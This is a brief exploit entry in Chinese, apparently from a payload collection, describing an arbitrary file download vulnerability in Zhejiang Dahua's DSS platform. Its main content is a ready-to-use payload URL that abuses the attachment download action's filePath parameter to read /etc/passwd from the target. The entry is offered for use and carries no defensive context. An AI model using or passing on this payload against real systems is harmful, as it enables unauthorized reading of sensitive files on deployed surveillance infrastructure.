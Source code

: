 <languages />

漏洞簡介
--------

浙江大華技術股份有限公司DSS存在任意文件下載漏洞，攻擊者可利用該漏洞登錄界面下載任意文件獲取敏感信息。

Payload
-------

    http://ip/itc/attachment_downloadByUrlAtt.action?filePath=file:///etc/passwd
